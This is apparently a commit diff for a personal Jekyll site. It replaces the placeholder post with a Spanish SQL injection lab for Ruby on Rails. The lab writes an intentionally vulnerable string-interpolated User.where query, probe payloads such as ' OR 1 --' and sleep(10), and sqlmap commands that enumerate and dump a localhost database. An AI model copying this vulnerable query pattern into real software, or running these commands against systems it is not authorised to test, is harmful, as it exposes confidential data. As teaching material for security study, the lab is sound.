

Before and after one commit to fbarriosCL/fbarriosCL.github.io, a Jekyll site: the page built from _posts/2016-04-26-welcome-to-jekyll.markdown, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 920 px from its top, so only the background shows below that.

Commit message:
ADD: add config and new post

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -6,16 +6,15 @@
 # 'jekyll serve'. If you change this file, please restart the server process.
 
 # Site settings
-title: Your awesome title
-email: your-email@domain.com
+title: fbarriosCL
+email: felipe@backtrackacademy.com
 description: > # this means to ignore newlines until "baseurl:"
-  Write an awesome description for your new site here. You can edit this
-  line in _config.yml. It will appear in your document head meta (for
-  Google search results) and in your feed.xml site description.
+  I'm Felipe Barrios CEO of Backtrack Academy Ethical Hacking E-learning.
+  Entrepreneur and back-end developer Ruby on Rails, Ror became my preferred language.
 baseurl: "" # the subpath of your site, e.g. /blog
-url: "http://yourdomain.com" # the base hostname & protocol for your site
-twitter_username: jekyllrb
-github_username:  jekyll
+url: "http://backtrackacademy.com" # the base hostname & protocol for your site
+twitter_username: FbarriosL
+github_username:  fbarriosCL
 
 # Build settings
 markdown: kramdown
--- a/_posts/2016-04-26-welcome-to-jekyll.markdown
+++ b/_posts/2016-04-26-welcome-to-jekyll.markdown
@@ -1,25 +1,47 @@
 ---
 layout: post
-title:  "Welcome to Jekyll!"
+title:  "SQL Inyection On Rails"
 date:   2016-04-26 00:37:19 -0300
 categories: jekyll update
 ---
-You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. You can rebuild the site in many different ways, but the most common way is to run `jekyll serve`, which launches a web server and auto-regenerates your site when a file is updated.
+El siguiente laboratorio tiene como objetivo comprender uno de los ataque más populares en aplicaciones web, Inyección SQL, como muchos sabrán una inyección sql tiene como objetivo hacer consultas a la base de datos mediante la manipulación de los parámetros evitando la autorización del administrador,pudiendo obtener la manipulación y extracción de datos confidenciales que pueden comprometer el modelo de negocio de la compañía.
 
-To add new posts, simply add a file in the `_posts` directory that follows the convention `YYYY-MM-DD-name-of-post.ext` and includes the necessary front matter. Take a look at the source for this post to get an idea about how it works.
+A continuación vamos a crear una aplicación en Ruby on Rails:
 
-Jekyll also offers powerful support for code snippets:
+```
+rails new My-Application
+```
+Para este ejemplo crearemos un modelo para el usuario con un atributo name:string
 
+```
+rails g model user name:string
+```
+
+Además agregaremos un método,cuya función será buscar usuarios por el atributo name.
 {% highlight ruby %}
-def print_hi(name)
-  puts "Hi, #{name}"
+def search(params)
+ User.where("name LIKE '#{params}'")
 end
-print_hi('Tom')
-#=> prints 'Hi, Tom' to STDOUT.
 {% endhighlight %}
 
-Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].
+Ahora que ya creamos nuestro primer método vulnerable, vamos a descubrir vulnerabilidad, para ello podemos realizar las siguientes pruebas:
 
-[jekyll-docs]: http://jekyllrb.com/docs/home
-[jekyll-gh]:   https://github.com/jekyll/jekyll
-[jekyll-talk]: https://talk.jekyllrb.com/
+```
+localhost:3000/search/1 and 1 = 1 --
+localhost:3000/search/1 and sleep(10)
+sqlmap -u = “localhost:3000/tests/*” --dbms=”SQLite” --risk=”3” --level= “5”
+```
+
+Si un usuario malicioso entra ' OR 1 -- , la consulta SQL resultante será :
+```
+SELECT * FROM users WHERE name = '' OR 1 --'
+```
+
+Explotamos vulnerabilidad
+
+```
+sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
+sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
+sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --tables
+sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 -T inyections --dump -v 3
+```
````
